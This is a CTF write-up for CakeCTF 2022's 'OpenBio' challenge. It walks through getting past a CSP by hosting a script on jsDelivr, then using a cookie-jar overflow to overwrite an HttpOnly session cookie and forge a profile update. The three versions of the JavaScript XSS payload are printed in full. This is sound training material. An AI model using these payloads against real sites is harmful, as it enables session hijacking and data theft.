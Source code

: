 # CTF writeup for OpenBio - CakeCTF_2022

Let's take a look at the source code. There are some APIs: register/login/logout, view/update profile, and report.
The website uses [CSP and nonce techniques](https://web.dev/csp/) to prevent XSS attack. Below is the `/profile/my_account`'s response header:
```
HTTP/1.1 200 OK
Server: nginx/1.21.6
Date: Mon, 05 Sep 2022 05:30:47 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2451
Connection: close
Content-Security-Policy: default-src 'none';
  script-src 'nonce-uXNwZYx7W4dDz2yzdzrcAw==' https://cdn.jsdelivr.net/ https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/ 'unsafe-eval';
  style-src https://cdn.jsdelivr.net/;
  frame-src https://www.google.com/recaptcha/ https://recaptcha.google.com/recaptcha/;
  base-uri 'none';
  connect-src 'self';
Vary: Cookie
```
So, the website only accepts scripts coming from https://cdn.jsdelivr.net/. I publish my npm package called my-npm-payload (version 1.0.0) with the content: `<script>alert(1)</script>`. Then I update my bio: `<script src="https://cdn.jsdelivr.net/npm/my-npm-payload@1.0.0"></script>`. And BOOM! The alert statement is executed.

Ok, we perfomed XSS successfully, but how to get the flag? Let's look at `crawler.js`:
```
  ...
    const username = Math.random().toString(32).substring(2);
    const password = Math.random().toString(32).substring(2);

    const browser = await puppeteer.launch(browser_option);
    try {
        const page = await browser.newPage();
        // Register
        await page.goto(base_url + '/', {timeout: 3000});
        await page.type('#username', username);
        await page.type('#password', password);
        await page.click('#tab-signup');
        await page.click('#signup');
        await wait(1000);

        // Set flag to bio
        await page.goto(base_url + '/', {timeout: 3000});
        await page.$eval('#bio', element => element.value = '');
        await page.type('#bio', "You hacked me! The flag is " + flag);
        await page.click('#update');
        await wait(1000);

        // Check spam page
        await page.goto(url, {timeout: 3000});
        await wait(3000);
        await page.close();
   ...
```
In short, it does the following things:
- First, create a user (with random username and password)
- Second, update its own bio => flag
- Finally, go to reported bio

This is my idea: When the crawler visit my bio, the executed XSS script will change **my bio** to **crawler's username**. And having crawler's username means having the flag.

## CSRF

The update profile API uses csrf_token. But I realize that with the same session cookie and one of the valid csrf_tokens, I can call update API multiple times. 

Therefore, the script should **change the crawler's session cookie to my session cookie and call update API with my csrf_token**

## Change session cookie

The session cookie is HttpOnly. There's a technique we can use to bypass this. It's [Cookie jar overflow](https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies/cookie-jar-overflow). So, this is my-npm-payload (version 2.0.0):
```
for (let i = 0; i < 700; i++) {
        document.cookie = `cookie${i}=${i}`;
    }
    for (let i = 0; i < 700; i++) {
        document.cookie = `cookie${i}=${i};expires=Thu, 01 Jan 1970 00:00:01 GMT`;
    }
    document.cookie='session=<my_session_cookie>;path=/';
    
    xhr_2 = new XMLHttpRequest();
    xhr_2.open('POST', '/api/user/update');
    xhr_2.withCredentials = true;
    xhr_2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr_2.send("bio=new_bio"&csrf_token=<my_csrf_token>");
```
Note that there is `path=/` in new session cookie, because if not, the cookie will not be sent with the request on path `/profile/...`
I ran this code on console first, and it worked! Now, we will replace `new_bio` to the flag.
I modified my-npm-payload like this (version 3.0.0):
```
//send request to / => get the crawler's username
var result;
xhr = new XMLHttpRequest();
xhr.open('GET', '/');
xhr.onreadystatechange = function(){
    result = xhr.responseText;
    dom = new DOMParser();
    result_parsed = dom.parseFromString(result, 'text/html');
    title = result_parsed.title; //The title contains the crawler's username
    
    //overwrite crawler's session cookie => my session cookie
    for (let i = 0; i < 700; i++) {
        document.cookie = `cookie${i}=${i}`;
    }
    for (let i = 0; i < 700; i++) {
        document.cookie = `cookie${i}=${i};expires=Thu, 01 Jan 1970 00:00:01 GMT`;
    }
    document.cookie='session=<my_session_cookie>;path=/';
    
    //Update my bio with my csrf_token
    xhr_2 = new XMLHttpRequest();
    xhr_2.open('POST', '/api/user/update');
    xhr_2.withCredentials = true;
    xhr_2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr_2.send("bio=<script src='https://cdn.jsdelivr.net/npm/my-npm-payload@3.0.0'></script>Title:"+title+"&csrf_token=<my_csrf_token>");
}
xhr.send();
```
I have `<script src='my-npm-payload-url'></script>` in my bio's content so that when I go to my profile and click "Report", the payload will not be lost. I changed my bio: `<script src="https://cdn.jsdelivr.net/npm/my-npm-payload@3.0.0"></script>` and after reporting, I got the result:

![image](https://user-images.githubusercontent.com/103978452/188373761-51e8babe-9dbb-4479-bbe8-7686cd21cfd2.png)

Now visit `/profile/7cokbb5m2bo` and here's the flag:
'CakeCTF{httponly=true_d03s_n0t_pr0t3ct_U_1n_m4ny_c4s3s!}'

**Notes**: Somehow, this works fine on Chrome but not on Firefox. The problem is related to SameSite attribute of cookie. However, I got the flag :))
